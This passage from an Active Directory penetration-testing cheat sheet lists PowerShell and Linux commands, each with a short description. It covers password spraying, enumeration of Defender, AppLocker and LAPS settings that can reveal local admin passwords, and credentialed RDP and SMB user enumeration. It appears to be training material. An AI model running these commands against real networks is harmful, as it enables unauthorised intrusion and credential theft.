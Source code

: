 ```
Invoke-DomainPasswordSpray -Password <pass> -OutFile spray_success -ErrorAction SilentlyContinue
```
> Performs a password spraying attack and outputs (-OutFile) the results to a specified file (spray_success) from a Windows-based host.

* * *

## Enumerating Security Controls

* * *

```
Get-MpComputerStatus
``` 	
> PowerShell cmd-let used to check the status of Windows Defender Anti-Virus from a Windows-based host.

```
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```
> PowerShell cmd-let used to view AppLocker policies from a Windows-based host.

```
$ExecutionContext.SessionState.LanguageMode
```
> PowerShell script used to discover the PowerShell Language Mode being used on a Windows-based host. Performed from a Windows-based host.

```
Find-LAPSDelegatedGroups
``` 	
> A LAPSToolkit function that discovers LAPS Delegated Groups from a Windows-based host.

```
Find-AdmPwdExtendedRights
```
> A LAPSTookit function that checks the rights on each computer with LAPS enabled for any groups with read access and users with All Extended Rights. Performed from a Windows-based host.

```
Get-LAPSComputers
``` 	
> A LAPSToolkit function that searches for computers that have LAPS enabled, discover password expiration and can discover randomized passwords. Performed from a Windows-based host.

* * *

## Credentialed Enumeration

* * *

```
xfreerdp /u:<user>@<domain> /p:<pass> /v:<ip>
``` 	
> Connects to a Windows target using valid credentials. Performed from a Linux-based host.

```
sudo crackmapexec smb <ip> -u <user> -p <pass> --users
``` 	
> Authenticates with a Windows target over smb using valid credentials and attempts to discover more users (--users) in a target Windows domain. Performed from a Linux-based host.
